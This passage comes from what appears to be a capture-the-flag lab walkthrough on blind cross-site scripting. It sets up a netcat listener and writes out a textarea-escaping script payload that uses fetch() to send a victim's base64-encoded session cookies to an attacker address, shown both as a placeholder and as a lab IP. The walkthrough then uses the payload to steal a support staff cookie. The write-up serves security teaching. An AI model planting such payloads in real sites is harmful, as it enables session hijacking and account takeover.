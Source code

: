 ```console
nc -lvnp 9001
```
With the listener set up, let's modify our payload to meet our requirements above.

```js
</textarea><script>fetch('http://{URL_OR_IP}?cookie=' + btoa(document.cookie) );</script>
```
Where:

- `</textarea>` tag closes the *textarea* field.
- `<script>` tag opens an area for us to write JavaScript code.
- `fetch()` command makes an HTTP request.
- `{URL_OR_IP}` is the attacker's IP.
- `?cookie=` is the query string that will contain the victim's cookies.
- `btoa()` command bas64 encodes the victim's cookies.
- `document.cookie` accesses the victim's cookies for the current session.
- `</script>` closes the JavaScript code block.

Creating a new support ticket with the following payload and waiting for a callback allows us to capture the support staff's session cookies: `</textarea><script>fetch('http://10.10.252.168:9001?cookie=' + btoa(document.cookie) );</script>`

![Blind XSS](../../assets/images/thm/crosssitescripting/40-blind_7.png)

Decoding the value of the `?cookie` query string gives us value of the staff-session cookie.
